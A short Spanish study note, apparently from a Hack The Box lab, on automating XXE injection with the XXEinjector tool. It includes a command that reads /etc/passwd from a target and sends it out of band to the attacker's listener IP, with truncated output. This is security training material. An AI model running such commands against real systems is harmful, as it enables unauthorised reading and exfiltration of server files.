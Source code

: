 ## Automated XXE

con XXEinjector

1. Pillamos la request y la guardamos en un archivo para meterlo a la tool
2. magia
```shell-session
bonack@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
Todo lo que encuentr se mete en un folder de logs que aparecerá nuevo, no hace falta levantar ningun server python el ya lo hace solo
